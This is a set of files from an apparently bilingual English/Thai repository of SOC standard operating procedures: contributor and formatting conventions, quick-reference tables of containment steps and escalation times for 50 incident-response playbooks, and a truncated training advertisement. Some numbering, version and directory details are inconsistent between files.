This repository provides **vendor-agnostic, production-ready SOC Standard Operating Procedures** that any organization can adopt to build or mature their Security Operations Center. All content follows NIST, MITRE ATT&CK, and ISO 27001/27035 frameworks.

### WHAT — Scope
- 50 Incident Response Playbooks (PB-01 to PB-50)
- Operations Management (Shift Handoff, KPIs, Team Structure, CTI, TLP)
- Detection Engineering (Sigma rules, YARA signatures)
- Simulation & Purple Teaming
- Training & Onboarding Curriculum
- Executive Reporting Templates
- All content is **bilingual** (English + Thai)

### HOW — Technology
- **Format**: Markdown (`.md`) with Mermaid diagrams
- **Diagrams**: Mermaid.js (rendered natively on GitHub)
- **Detection Rules**: Sigma YAML, YARA
- **Quality Tools**: `python3 tools/check_links.py`, `python3 tools/export_docs.py`
- **No build system required** — raw Markdown works on GitHub directly

**Maintained by**: [cyberdefense.co.th](https://cyberdefense.co.th) | Line OA: `@cyberdefense`

---

## 📁 Directory Structure

```
SOCSOP/
├── 10_Training_Onboarding/           # SOC infrastructure setup
├── 02_Platform_Operations/   # Data governance, deployment procedures
├── 03_User_Guides/           # Detection engineering, tool integration
├── 04_Troubleshooting/       # Standard troubleshooting methodology
├── 05_Incident_Response/     # IR Framework + 50 Playbooks
│   └── Playbooks/            # Individual incident playbooks (PB-01 to PB-50)
├── 06_Operations_Management/ # Shift handoff, metrics, team structure, TLP, CTI
├── 08_Detection_Engineering/sigma_rules/       # Sigma detection rules (.yml)
├── 08_Simulation_Testing/    # Purple team guides, Atomic Red Team maps
├── 10_Training_Onboarding/   # Analyst curriculum, training checklists
├── 08_Detection_Engineering/file_signatures/       # YARA rules
├── 11_Reporting_Templates/   # Monthly/quarterly executive reports
├── 11_Reporting_Templates/  # (templates moved here)                # Incident report, shift handover, RFC forms
├── tools/                    # Utility scripts (export, link check)
└── assets/                   # Images (hero banner, etc.)
```

---

## 📛 File Naming Conventions

| Rule | Example |
|---|---|
| English docs end with `.en.md` | `Phishing.en.md` |
| Thai docs end with `.th.md` | `Phishing.th.md` |
| Bilingual docs **always** come in pairs (EN + TH) | `Framework.en.md` + `Framework.th.md` |
| Language-neutral docs use plain `.md` | `README.md` |
| Use `PascalCase_With_Underscores` for filenames | `SOC_Team_Structure.en.md` |
| Detection rules use lowercase with underscores | `win_multiple_failed_logins.yml` |
| YARA rules use lowercase with underscores | `ransomware_extensions.yar` |

---

## 📄 Document Structure Requirements

Every SOP document **MUST** contain these sections in this exact order:

### 1. Title & Metadata
```markdown
# Document Title

**ID**: PB-XX (for playbooks)
**Severity**: Low/Medium/High/Critical (for playbooks)
**Trigger**: What causes this playbook to activate
```

### 2. Mermaid Flowchart
Every document must include at least one `mermaid` diagram visualizing the process or workflow.

````markdown

````

**Mermaid rules**:
- Thai versions must have **localized labels** (not English copy-pasted)
- Use `graph TD` (top-down) for process flows
- Use `graph LR` (left-right) for timelines/career paths
- Keep diagrams concise (max ~10 nodes)
- Use `style` for color coding when useful

### 3. Main Content
Structured with numbered sections (`## 1.`, `## 2.`, etc.) and actionable checklists:
```markdown
-   [ ] **Action Item**: Description of what to do.
```

### 4. Related Documents (Cross-Links)
Cross-links to other documents in the repository. Insert **before** References.

```
## Related Documents          <!-- English -->
## เอกสารที่เกี่ยวข้อง (Related Documents)  <!-- Thai -->

-   Document Name → relative/path/to/file.en.md
```

**Cross-link rules**:
- Playbooks → IR Framework, Incident Report Template, related Playbooks
- Operations docs → SOC Metrics, Assessment Checklist, IR Framework
- Always use **relative paths** (e.g., `../05_Incident_Response/Framework.en.md`)
- Every file must link to at least 2 other internal documents

### 5. References
External links to authoritative sources. Always include at least 2 references.

```markdown
## References
-   [NIST SP 800-61r2](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
-   [MITRE ATT&CK](https://attack.mitre.org/)
```

**Preferred reference sources** (in order of priority):
1. NIST (SP 800-61, 800-53, CSF)
2. MITRE ATT&CK
3. CISA
4. SANS
5. OWASP
6. ISO 27001/27035
7. SOC-CMM
8. FIRST CSIRT Services Framework

---

## 🌐 Bilingual Content Rules

| Rule | Details |
|---|---|
| Every EN doc must have a TH counterpart | No orphaned single-language files |
| Thai docs are **localized**, not literal translations | Adapt terminology naturally |
| Mermaid labels must be localized | `Alert[แจ้งเตือน]` not `Alert[Alert]` |
| Section headers include Thai + English | `## 1. นิยามปัญหา (Defining the Problem)` |
| Keep technical terms untranslated | SIEM, MITRE ATT&CK, IOC, TLP, YARA, Sigma |
| References section header stays as `## References` | Same in both EN and TH versions |
| Related Documents header is bilingual in TH | `## เอกสารที่เกี่ยวข้อง (Related Documents)` |

---

## 🎨 Tone & Style Guide

### Writing Style
- **Actionable**: Write procedures as clear, step-by-step instructions
- **Imperative mood**: "Check the logs" not "The logs should be checked"
- **Concise**: Short bullet points, no long paragraphs
- **Professional**: Suitable for SOC analysts and CISO-level readers

### Formatting Rules
- Use `-   ` (3 spaces after dash) for bullet points
- Use `**Bold**` for key terms and action items
- Use backticks for commands, tools, and technical identifiers: `nslookup`, `SIEM`, `T1566`
- Tables for structured data (KPIs, staffing models, severity matrices)
- Numbered sections for sequential processes (`## 1.`, `## 2.`)

---

## 🛡️ Playbook Conventions

| Property | Rule |
|---|---|
| **ID Format** | `PB-XX` (e.g., PB-01, PB-02 ... PB-50) |
| **Standard Sections** | Analysis → Containment → Eradication → Recovery |
| **Mermaid Flow** | Must visualize the triage/decision process |
| **MITRE ATT&CK** | Reference relevant Technique IDs (e.g., T1566, T1078) |
| **Severity Levels** | Low, Medium, High, Critical |
| **Checklists** | Use `- [ ]` for operational steps |
| **Cross-Links** | Link to IR Framework, Incident Report template, related PBs |

### Playbook Index (PB-01 to PB-50)
```
PB-01 Phishing               PB-11 Suspicious Script
PB-02 Ransomware             PB-12 Lateral Movement
PB-03 Malware Infection      PB-13 C2 Communication
PB-04 Brute Force            PB-14 Insider Threat
PB-05 Account Compromise     PB-15 Log Clearing
PB-06 Impossible Travel      PB-16 Lost Device
PB-07 Privilege Escalation   PB-17 Rogue Admin
PB-08 Data Exfiltration      PB-18 BEC (Business Email Compromise)
PB-09 DDoS Attack            PB-19 Web Application Attack
PB-10 Exploit/Vulnerability  PB-20 Cloud-specific (AWS/Azure)
```

---

## 🔍 Detection Rules

### Sigma Rules (`08_Detection_Engineering/sigma_rules/`)
- **Format**: Sigma YAML specification v2
- **Naming**: `<category>_<description>.yml` (e.g., `win_multiple_failed_logins.yml`)
- **Required fields**: `title`, `status`, `description`, `logsource`, `detection`, `level`, `tags`
- **Tags**: Must include MITRE ATT&CK technique IDs (e.g., `attack.t1110`)

### YARA Rules (`08_Detection_Engineering/file_signatures/`)
- **Format**: YARA rule syntax
- **Naming**: `<family>_<indicator>.yar`
- **Required**: `meta`, `strings`, `condition` blocks

---

## ✅ Verification & Quality Checks

### Before Every Commit
```bash
# 1. Check all internal links are valid
python3 tools/check_links.py

# 2. Regenerate consolidated manual
python3 tools/export_docs.py
```

### Pre-Commit Checklist
- [ ] `check_links.py` passes ✅ (no broken internal links)
- [ ] `export_docs.py` regenerates `SOC_Manual_Consolidated.md`
- [ ] Both EN and TH versions updated if content changed
- [ ] Mermaid diagrams render correctly
- [ ] Related Documents section present with cross-links
- [ ] References section present with at least 2 credible sources
- [ ] README.md updated if new documents were added
- [ ] No duplicate lines (known issue — scan after batch edits)

---

## 📝 Git Commit Conventions

**Pattern**: `<Action> <What> (<Details>)`

```
Add SOC Team Structure document (EN/TH) with org chart, roles, career path
Fix duplicate lines from flow insertion, regenerate consolidated manual
Add cross-links between all documents (Related Documents sections)
Standardize Operations Management docs: Add flows and references
```

**Actions**: `Add`, `Fix`, `Update`, `Remove`, `Refactor`, `Standardize`

---

## 📖 README Maintenance

When adding new documents:
1. Add a row to the relevant section table in `README.md`
2. Follow the existing table format with English and Thai links
3. Keep the table alphabetically sorted within each section

---

## ⚠️ Known Pitfalls & Gotchas

| Pitfall | Solution |
|---|---|
| `multi_replace` tool duplicates lines when inserting flows | Scan for duplicate lines after batch edits with `grep` |
| Mermaid nodes with parentheses break rendering | Use `["text with (parens)"]` square bracket syntax |
| Thai text in Mermaid can overflow | Keep labels short, use abbreviations |
| Symlinks not followed on some Git platforms | Verify CLAUDE.md, .cursorrules render on GitHub |
| `check_links.py` only validates internal links | External URLs (References) are NOT checked automatically |
| `SOC_Manual_Consolidated.md` must be regenerated | Always run `export_docs.py` after any content change |

---

## 🔒 Security & Confidentiality Rules

- **NEVER** commit real credentials, API keys, or tokens
- **NEVER** include client-specific data (company names, IPs, domains)
- **NEVER** reference internal infrastructure details
- All examples must use **placeholder values**: `[COMPANY]`, `[IP_ADDRESS]`, `[YYYY-MM-DD]`
- Keep all content **vendor-agnostic** — no Splunk, QRadar, Sentinel-specific content
- Use generic terms: "SIEM query" not "SPL query", "EDR" not "CrowdStrike"

---

## 🚀 Common Workflows

### Adding a New Playbook
```
1. Create `05_Incident_Response/Playbooks/<Name>.en.md`
2. Create `05_Incident_Response/Playbooks/<Name>.th.md`
3. Include: Metadata, Mermaid flow, Analysis/Containment/Eradication/Recovery
4. Add Related Documents (→ Framework, → Incident Report Template)
5. Add References (MITRE ATT&CK technique + 1 more)
6. Update README.md table
7. Run: python3 tools/check_links.py
8. Run: python3 tools/export_docs.py
9. Commit with: "Add PB-XX <Name> playbook (EN/TH)"
```

### Adding a New Operations Document
```
1. Create `06_Operations_Management/<Name>.en.md`
2. Create `06_Operations_Management/<Name>.th.md`
3. Include: Mermaid flow, structured content, checklists
4. Add Related Documents (→ SOC Metrics, → Assessment Checklist)
5. Add References (NIST/SOC-CMM/SANS)
6. Update README.md table
7. Run verification scripts
8. Commit with: "Add <Name> document (EN/TH)"
```

### Updating Existing Documents
```
1. Edit both EN and TH versions
2. Verify Mermaid diagrams still render
3. Verify cross-links still work
4. Run: python3 tools/check_links.py
5. Run: python3 tools/export_docs.py
6. Commit with: "Update <Name>: <what changed>"
```

---

## ❌ Do NOT

- ❌ Use vendor-specific terminology (`"Splunk query"` → use `"SIEM query"`)
- ❌ Create single-language documents (always EN + TH pair)
- ❌ Skip the Mermaid flowchart in any SOP document
- ❌ Use absolute file paths in cross-links (always relative)
- ❌ Commit without running `check_links.py` and `export_docs.py`
- ❌ Leave References section empty (minimum 2 sources)
- ❌ Hardcode organization-specific details (keep vendor-agnostic)
- ❌ Include real credentials, client data, or internal infrastructure info
- ❌ Modify `SOC_Manual_Consolidated.md` directly (it's auto-generated)
- ❌ Create deeply nested directories (max 2 levels deep)
- ❌ Skip the Related Documents section (every file must cross-link)
- ❌ Use inline HTML in Markdown (except README badges/footer)


---

## File: CONTRIBUTING.md

# 🤝 Contributing Guide / คู่มือการมีส่วนร่วม

Thank you for your interest in contributing to the SOC Standard Operating Procedures!
ขอบคุณที่สนใจมีส่วนร่วมในโครงการ SOC SOP!

---

## 📋 How to Contribute / วิธีการมีส่วนร่วม

### 1. Report Issues / แจ้งปัญหา

- Found a broken link, typo, or outdated information?
- Open a [GitHub Issue](https://github.com/nutthakorn7/SOC-SOP/issues) with:
  - **Title**: Clear description of the issue
  - **File**: Which file(s) are affected
  - **Description**: What's wrong and suggested fix

### 2. Suggest New Content / เสนอเนื้อหาใหม่

- Have an idea for a new SOP, playbook, or template?
- Open an issue with the `enhancement` label
- Include: topic, target audience, why it's needed

### 3. Submit Changes / ส่งการแก้ไข

```bash
# 1. Fork the repository
# 2. Create a feature branch
git checkout -b feat/my-new-document

# 3. Make your changes (see guidelines below)

# 4. Commit with conventional commit message
git commit -m "feat: add [Document Name] (EN+TH)"

# 5. Push and create a Pull Request
git push origin feat/my-new-document
```

---

## 📝 Document Standards / มาตรฐานเอกสาร

### File Naming

```
[Directory]/[Document_Name].[lang].md

Example:
06_Operations_Management/DLP_SOP.en.md
06_Operations_Management/DLP_SOP.th.md
```

### Required: Bilingual Pairs

Every document **must** have both English (`.en.md`) and Thai (`.th.md`) versions.

| ✅ Correct | ❌ Incorrect |
|:---|:---|
| `DLP_SOP.en.md` + `DLP_SOP.th.md` | `DLP_SOP.en.md` only |

### Document Structure

Each SOP should include these sections:

```markdown
# Document Title

## Purpose / วัตถุประสงค์
Brief description of what this document covers.

## Scope / ขอบเขต
Who and what this applies to.

## [Main Content Sections]
The core content of the SOP.

## Related Documents / เอกสารที่เกี่ยวข้อง
Links to related SOPs in this repository.

## References / อ้างอิง
External references, standards, frameworks.
```

### Directory Structure

| Directory | Content |
|:---|:---|
| `00_Getting_Started/` | Introductory materials |
| `01_SOC_Fundamentals/` | Building and planning SOC |
| `05_Incident_Response/` | IR framework, playbooks, forensics |
| `06_Operations_Management/` | Day-to-day operations SOPs |
| `08_Simulation_Testing/` | Purple team, phishing sim, atomic tests |
| `10_Training_Onboarding/` | Analyst training materials |
| `07_Compliance_Privacy/` | Regulatory compliance |
| `11_Reporting_Templates/` | Reports and dashboards |
| `11_Reporting_Templates/` | Operational form templates |
| `sigma_rules/` | Detection rules (YAML) |
| `tools/` | Scripts and interactive tools |

---

## ✅ Checklist Before Submitting / เช็คลิสต์ก่อนส่ง

- [ ] Both `.en.md` and `.th.md` versions exist
- [ ] Internal links work (`python3 tools/check_links.py`)
- [ ] Document has Required Sections (Purpose, Scope, Related Documents, References)
- [ ] Added to `README.md` in the appropriate section
- [ ] Added to `mkdocs.yml` navigation
- [ ] Updated `CHANGELOG.md` with the change
- [ ] Updated `VERSION_TRACKER.md` with new/modified document
- [ ] Commit message follows [Conventional Commits](https://www.conventionalcommits.org/) format

---

## 💬 Commit Message Format

Use [Conventional Commits](https://www.conventionalcommits.org/):

```
feat: add [Document Name] (EN+TH)           # New document
fix: correct broken links in [File]          # Bug fix
refactor: reorganize [Section] structure     # Restructuring
docs: update README with new entries         # Documentation update
```

---

## 🔄 Update Workflow

When adding new documents, update these files (see [workflow](https://github.com/nutthakorn7/SOC-SOP/blob/main/.agent/workflows/update-docs.md)):

| # | File | Action |
|:---:|:---|:---|
| 1 | New `.en.md` + `.th.md` | Create the documents |
| 2 | `README.md` | Add entry in appropriate section |
| 3 | `mkdocs.yml` | Add navigation entry |
| 4 | `CHANGELOG.md` | Add version entry |
| 5 | `VERSION_TRACKER.md` | Add tracking row |

---

## 📬 Questions? / มีคำถาม?

- Open a [GitHub Discussion](https://github.com/nutthakorn7/SOC-SOP/discussions) or [Issue](https://github.com/nutthakorn7/SOC-SOP/issues)
- Contact: [Nutthakorn [Pop]](https://www.linkedin.com/in/nutthakorn/) via LinkedIn or Line: `pop7`

---

<p align="center">
  <i>Every contribution makes SOC operations better for everyone! 🛡️</i>
</p>


---

## File: Playbook_Quick_Reference.md

# 🛡️ SOC Playbook Quick Reference Card

> **Print this page** — A single-page reference for all 50 incident response playbooks.
>
> **พิมพ์หน้านี้** — สรุป Playbook ทั้ง 50 ในหน้าเดียว สำหรับแปะโต๊ะ Analyst

---

## 📧 Email & Social Engineering

| PB | Name / ชื่อ | Severity | Key Action |
|:---:|:---|:---:|:---|
| **01** | Phishing / ฟิชชิ่ง | P2–P1 | Isolate mailbox → Block sender → Check click logs |
| **17** | BEC / อีเมลหลอกธุรกิจ | P1 | Freeze financial transactions → Verify sender identity |
| **42** | Email Account Takeover | P1 | Reset creds → Revoke OAuth → Audit inbox rules |
| **48** | Deepfake Social Engineering | P1 | Verify via callback → Freeze actions → Preserve media |

## 🦠 Malware & Ransomware

| PB | Name / ชื่อ | Severity | Key Action |
|:---:|:---|:---:|:---|
| **02** | Ransomware / แรนซัมแวร์ | P1 | Isolate → Do NOT pay → Check backups → Preserve evidence |
| **03** | Malware Infection / มัลแวร์ | P2–P1 | Isolate endpoint → Collect artifacts → EDR scan |
| **10** | Exploit / ช่องโหว่ | P2–P1 | Patch → Block IP → Check lateral movement |
| **11** | Suspicious Script | P2 | Kill process → Capture script → Check parent process |
| **38** | Wiper Attack | P1 | Isolate immediately → Check integrity → Activate DR |
| **39** | Living Off The Land | P2 | Audit LOLBin usage → Check scheduled tasks → Monitor |
| **46** | Rootkit / Bootkit | P1 | Offline scan → Rebuild if confirmed → Check firmware |

## 🔑 Identity & Access

| PB | Name / ชื่อ | Severity | Key Action |
|:---:|:---|:---:|:---|
| **04** | Brute Force / เดารหัส | P3–P2 | Lock account → Check source IP → Enable MFA |
| **05** | Account Compromise | P2–P1 | Reset password → Revoke sessions → Check actions |
| **06** | Impossible Travel | P3–P2 | Verify with user → Check VPN → Review access logs |
| **07** | Privilege Escalation | P1 | Revoke elevated perms → Audit group changes |
| **14** | Insider Threat / ภัยจากภายใน | P1 | Preserve evidence → Legal/HR → Monitor covertly |
| **15** | Rogue Admin | P1 | Disable account → Rotate secrets → Full audit |
| **26** | MFA Bypass / Token Theft | P1 | Revoke tokens → Force re-enrollment → Check phish kit |
| **36** | Credential Dumping | P1 | Reset all exposed creds → Check LSASS/SAM/DCSync |

## 🌐 Network & Web

| PB | Name / ชื่อ | Severity | Key Action |
|:---:|:---|:---:|:---|
| **09** | DDoS Attack | P2–P1 | Activate WAF/CDN → Rate limit → ISP mitigation |
| **12** | Lateral Movement | P1 | Segment network → Disable compromised accounts |
| **13** | C2 Communication | P1 | Block C2 domains/IPs → Isolate beaconing hosts |
| **18** | Web Attack | P2 | WAF block → Review logs → Patch vulnerability |
| **22** | API Abuse | P2 | Rate limit → Rotate API keys → Review access patterns |
| **24** | DNS Tunneling | P1 | Block DNS → Isolate host → Analyze payload |
| **25** | Zero-Day Exploit | P1 | Virtual patch → Isolate → Monitor for exploitation |
| **34** | Network Discovery | P3 | Identify scanner → Block if unauthorized → Review ACLs |
| **37** | SQL Injection | P1 | WAF block → Patch code → Check data exposure |
| **44** | Watering Hole | P1 | Block site → Scan visitors → Check exploit payload |
| **43** | Drive-By Download | P2 | Block URL → Scan affected endpoints → Patch browser |
| **50** | Unauthorized Scanning | P3 | Identify source → Block → Report if external |

## ☁️ Cloud & Infrastructure

| PB | Name / ชื่อ | Severity | Key Action |
|:---:|:---|:---:|:---|
| **16** | Cloud IAM Anomaly | P2 | Review permissions → Revoke excess → Audit API calls |
| **23** | Cryptomining | P2 | Terminate instances → Rotate keys → Check billing |
| **28** | Cloud Storage Exposure | P2–P1 | Make private → Check access logs → Notify if data leaked |
| **30** | Shadow IT | P3 | Inventory → Risk assess → Block or onboard |
| **19** | AWS EC2 Compromise | P1 | Isolate instance → Snapshot EBS → Rotate keys |
| **20** | AWS S3 Compromise | P1 | Block public access → Check CloudTrail → Rotate creds |
| **33** | Azure AD Compromise | P1 | Revoke sessions → Reset creds → Check Conditional Access |
| **41** | VPN Abuse | P2 | Disable VPN account → Check source → Review tunnel logs |
| **45** | Cloud Cryptojacking | P2 | Kill compute → Revoke API keys → Alert billing |

## 📦 Data & Supply Chain

| PB | Name / ชื่อ | Severity | Key Action |
|:---:|:---|:---:|:---|
| **08** | Data Exfiltration / ข้อมูลรั่ว | P1 | Block channel → Assess scope → PDPA notification |
| **27** | Log Clearing / ลบ Log | P1 | Restore from backup → Preserve remaining → Investigate |
| **21** | Supply Chain Attack | P1 | Isolate affected software → Check signatures → Vendor contact |
| **35** | Data Collection / Staging | P2 | Monitor staging area → Block exfil channels |
| **49** | Typosquatting | P3 | Report domain → Block in DNS → Alert users |

## 📱 Physical & Mobile

| PB | Name / ชื่อ | Severity | Key Action |
|:---:|:---|:---:|:---|
| **32** | Lost/Stolen Device / อุปกรณ์หาย | P2 | Remote wipe → Disable accounts → Report |
| **29** | Mobile Compromise | P2 | Factory reset → Re-enroll MDM → Change passwords |
| **31** | OT/ICS Incident | P1 | Isolate OT segment → Manual override → Vendor contact |
| **40** | USB Removable Media | P3–P2 | Scan device → Check autorun → DLP review |
| **47** | SIM Swap | P1 | Contact carrier → Reset accounts → Enable app-based MFA |

---

## ⚡ Escalation Quick Guide

| Severity | Response Time | Notify | Example |
|:---:|:---:|:---|:---|
| **P1 — Critical** | 15 min | SOC Manager + CISO + Legal | Ransomware, Active breach, Data leak |
| **P2 — High** | 30 min | SOC Manager + Team Lead | Malware, Account compromise |
| **P3 — Medium** | 2 hours | Tier 2 Analyst | Brute force, Scanning, Policy violation |
| **P4 — Low** | 8 hours | Tier 1 Analyst | False positive, Info request |

## 📞 Key Contacts (Fill In)

| Role | Name | Phone | Email |
|:---|:---|:---|:---|
| SOC Manager | __________ | __________ | __________ |
| CISO | __________ | __________ | __________ |
| Legal Counsel | __________ | __________ | __________ |
| PR/Comms | __________ | __________ | __________ |
| IT Infra Lead | __________ | __________ | __________ |
| Cloud Admin | __________ | __________ | __________ |
| HR Contact | __________ | __________ | __________ |

---

> 📖 **Full Documentation**: [SOC SOP Repository](https://nutthakorn7.github.io/SOC-SOP/)
>
> 🔄 **Last Updated**: 2026-02-17 | **Version**: 2.10


---

## File: Playbook_Quick_Reference.th.md

# 🛡️ SOC Playbook Quick Reference Card / สรุป Playbook

> **พิมพ์หน้านี้** — สรุป Playbook ทั้ง 50 ในหน้าเดียว สำหรับแปะโต๊ะ Analyst

---

## 📧 Email & Social Engineering

| PB | ชื่อ | ระดับ | การดำเนินหลัก |
|:---:|:---|:---:|:---|
| 01 | Phishing / ฟิชชิ่ง | 🟠 สูง | ตรวจ header → บล็อก sender → รีเซ็ตรหัส → สแกน mailbox |
| 17 | BEC / อีเมลหลอกธุรกิจ | 🔴 วิกฤต | ตรวจ wire transfer → ระงับบัญชี → แจ้งธนาคาร → forensic |
| 42 | Email Account Takeover | 🟠 สูง | ตรวจ forwarding rules → เพิกถอน session → MFA reset |
| 48 | Deepfake Social Engineering | 🟠 สูง | ยืนยันตัวตน → บันทึกหลักฐาน → แจ้ง HR/Legal |

## 🦠 Malware & Ransomware

| PB | ชื่อ | ระดับ | การดำเนินหลัก |
|:---:|:---|:---:|:---|
| 02 | Ransomware / แรนซัมแวร์ | 🔴 วิกฤต | แยกเครื่อง → ห้ามจ่ายค่าไถ่ → backup → IR team |
| 03 | Malware Infection / มัลแวร์ | 🟠 สูง | แยกเครื่อง → สแกน → eradicate → ตรวจ lateral |
| 10 | Exploit / ช่องโหว่ | 🔴 วิกฤต | แพทช์ → WAF rule → ตรวจ compromise → forensic |
| 11 | Suspicious Script | 🟡 กลาง | sandbox → วิเคราะห์ → บล็อก hash → สแกนทั้งองค์กร |
| 38 | Wiper Attack | 🔴 วิกฤต | แยกเครื่อง → ดูผลกระทบ → DR/BCP → forensic |
| 39 | Living Off The Land | 🟠 สูง | ตรวจ LOLBin → process tree → EDR hunt → block |
| 46 | Rootkit / Bootkit | 🔴 วิกฤต | boot จาก live media → forensic → reimage |

## 🔑 Identity & Access

| PB | ชื่อ | ระดับ | การดำเนินหลัก |
|:---:|:---|:---:|:---|
| 04 | Brute Force / เดารหัส | 🟡 กลาง | ตรวจ lockout → บล็อก IP → MFA → ตรวจรหัสซ้ำ |
| 05 | Account Compromise | 🟠 สูง | รีเซ็ตรหัส → เพิกถอน session → ตรวจกิจกรรม |
| 06 | Impossible Travel | 🟡 กลาง | ตรวจ IP/geo → ยืนยันผู้ใช้ → ระงับ/อนุญาต |
| 07 | Privilege Escalation | 🔴 วิกฤต | ตรวจสิทธิ์ → ถอนสิทธิ์ → ตรวจ persistence |
| 14 | Insider Threat / ภัยจากภายใน | 🟠 สูง | เก็บหลักฐาน → จำกัดสิทธิ์ → แจ้ง HR/Legal |
| 15 | Rogue Admin | 🔴 วิกฤต | ระงับบัญชี → forensic → ตรวจการเปลี่ยนแปลงทั้งหมด |
| 26 | MFA Bypass / Token Theft | 🟠 สูง | เพิกถอน token → บังคับ reenroll → ตรวจ session |
| 36 | Credential Dumping | 🔴 วิกฤต | แยกเครื่อง → รีเซ็ตรหัสทั้งหมดบนเครื่อง → KRBTGT |

## 🌐 Network & Web

| PB | ชื่อ | ระดับ | การดำเนินหลัก |
|:---:|:---|:---:|:---|
| 09 | DDoS Attack | 🟠 สูง | เปิด mitigation → CDN → ISP upstream → ตรวจ app |
| 12 | Lateral Movement | 🔴 วิกฤต | แยก segment → ปิด RDP/SMB → ตรวจทุกเครื่อง |
| 13 | C2 Communication | 🔴 วิกฤต | บล็อก domain/IP → แยกเครื่อง → DNS sinkhole |
| 18 | Web Attack | 🟠 สูง | WAF block → ตรวจ logs → แพทช์ช่องโหว่ |
| 22 | API Abuse | 🟡 กลาง | rate limit → API key revoke → ตรวจ data |
| 24 | DNS Tunneling | 🟠 สูง | บล็อก domain → ตรวจ payload → DNS monitoring |
| 25 | Zero-Day Exploit | 🔴 วิกฤต | virtual patch → แยกเครื่อง → monitor exploitation |
| 34 | Network Discovery | 🟡 กลาง | ตรวจ scanner → บล็อกถ้าไม่มีอนุญาต → ตรวจ ACL |
| 37 | SQL Injection | 🟠 สูง | บล็อก IP → WAF rules → ตรวจ DB → แพทช์โค้ด |
| 43 | Drive-By Download | 🟠 สูง | บล็อก URL → สแกนเครื่อง → แพทช์ browser |
| 44 | Watering Hole | 🔴 วิกฤต | บล็อกเว็บ → สแกนผู้เยี่ยมชม → ตรวจ exploit |
| 50 | Unauthorized Scanning | 🟡 กลาง | ตรวจ source → บล็อก → ตรวจ vuln ที่พบ |

## ☁️ Cloud & Infrastructure

| PB | ชื่อ | ระดับ | การดำเนินหลัก |
|:---:|:---|:---:|:---|
| 16 | Cloud IAM Anomaly | 🟠 สูง | ตรวจสิทธิ์ → เพิกถอนสิทธิ์เกิน → audit API calls |
| 19 | AWS EC2 Compromise | 🔴 วิกฤต | แยก instance → snapshot EBS → rotate keys |
| 20 | AWS S3 Compromise | 🔴 วิกฤต | ปิด public access → ตรวจ CloudTrail → rotate creds |
| 23 | Cryptomining | 🟡 กลาง | kill process → ตรวจ bill → ตรวจ access key |
| 28 | Cloud Storage Exposure | 🟠 สูง | ปิด public → ตรวจ access log → แจ้ง PDPA |
| 30 | Shadow IT | 🟡 กลาง | สำรวจ → ประเมินความเสี่ยง → migrate หรือ block |
| 33 | Azure AD Compromise | 🔴 วิกฤต | เพิกถอน session → รีเซ็ต creds → Conditional Access |
| 41 | VPN Abuse | 🟠 สูง | ระงับ VPN → ตรวจ source → ตรวจ tunnel logs |
| 45 | Cloud Cryptojacking | 🟠 สูง | kill compute → revoke API keys → แจ้ง billing |

## 📦 Data & Supply Chain

| PB | ชื่อ | ระดับ | การดำเนินหลัก |
|:---:|:---|:---:|:---|
| 08 | Data Exfiltration / ข้อมูลรั่ว | 🔴 วิกฤต | บล็อกช่องทาง → DLP → ตรวจข้อมูลที่รั่ว → PDPA |
| 21 | Supply Chain Attack | 🔴 วิกฤต | ตรวจ dependency → rollback → vendor contact |
| 27 | Log Clearing / ลบ Log | 🔴 วิกฤต | restore จาก backup → เก็บ log ที่เหลือ → ตรวจสอบ |
| 35 | Data Collection / Staging | 🟠 สูง | ตรวจ staging area → บล็อกช่องทาง exfil |
| 49 | Typosquatting | 🟡 กลาง | แจ้ง registrar → DNS block → แจ้งผู้ใช้ |

## 📱 Physical & Mobile

| PB | ชื่อ | ระดับ | การดำเนินหลัก |
|:---:|:---|:---:|:---|
| 29 | Mobile Compromise | 🟠 สูง | MDM wipe/lock → เพิกถอน token → ตรวจ data |
| 31 | OT/ICS Incident | 🔴 วิกฤต | แยก OT → ห้ามสแกน → manual override → ICS team |
| 32 | Lost/Stolen Device / อุปกรณ์หาย | 🟠 สูง | remote wipe → ระงับบัญชี → แจ้งความ |
| 40 | USB Removable Media | 🟡 กลาง | confiscate → scan → ตรวจ autorun → DLP |
| 47 | SIM Swap | 🟠 สูง | ติดต่อ carrier → เปลี่ยน MFA → รีเซ็ตบัญชี |

---

## 🔺 คู่มือ Escalation ด่วน

| ระดับ | SLA ตอบรับ | SLA แก้ไข | ส่งต่อถึง |
|:---:|:---:|:---:|:---|
| 🟢 P4 — ต่ำ | 8 ชม. | - | SOC T1 |
| 🟡 P3 — กลาง | 2 ชม. | 24 ชม. | SOC T2 |
| 🟠 P2 — สูง | 30 นาที | 8 ชม. | SOC T2 + IR Lead |
| 🔴 P1 — วิกฤต | 15 นาที | 4 ชม. | IR Team + CISO + Legal |

## 📞 ข้อมูลติดต่อ

| บทบาท | ชื่อ | เบอร์ | อีเมล |
|:---|:---|:---|:---|
| SOC Manager | __________ | __________ | __________ |
| IR Lead | __________ | __________ | __________ |
| CISO | __________ | __________ | __________ |
| Legal / DPO | __________ | __________ | __________ |
| ฝ่ายสื่อสาร | __________ | __________ | __________ |

---

> 📖 **เอกสารฉบับเต็ม**: [SOC SOP Repository](https://nutthakorn7.github.io/SOC-SOP/)
>
> 🔄 **อัปเดตล่าสุด**: 2026-02-17 | **เวอร์ชัน**: 2.11.1


---

## File: TRAINING.md

# 🎓 SOC Training & Consulting

<p align="center">
  
  
  
  
</p>

<p align="center">
  <b>เรียนรู้จากคนที่ทำจริง ไม่ใช่แค่ทฤษฎี</b><br>
  <i>Real-world SOC training backed by 170+ open-source SOPs, 33 playbooks, and 33 Sigma rules</i>
</p>

---

## 🔥 ทำไมต้องเลือกเรา

<table>
<tr>
<td width="25%" align="center">

### 📖 Open-Source Backed
ผู้เรียนได้รับ SOC SOP **170+ ชิ้น** กลับไปใช้งานได้ทันที — ไม่ต้องเริ่มจากศูนย์

</td>
<td width="25%" align="center">

### 🔬 100% Hands-on
ทุกหลักสูตรเน้น **workshop + lab** มากกว่า lecture — เรียนจบ ทำงานได้เลย

</td>
<td width="25%" align="center">

### 🎯 Vendor-Agnostic
สอนหลักการ ไม่ผูกกับ vendor — ใช้ได้กับ **ทุก SIEM, EDR, SOAR**

</td>
<td width="25%" align="center">

### 🇹🇭 Bilingual
เอกสารทั้งภาษา **อังกฤษ + ไทย** ทีมไม่ต้องแปลเอง

</td>
</tr>
</table>

---

## 📋 หลักสูตรทั้งหมด

> คลิกที่ชื่อหลักสูตรเพื่อดูรายละเอียด

| # | หลักสูตร | ระยะเวลา | เหมาะกับ | Format |
|:---:|:---|:---:|:---|:---:|
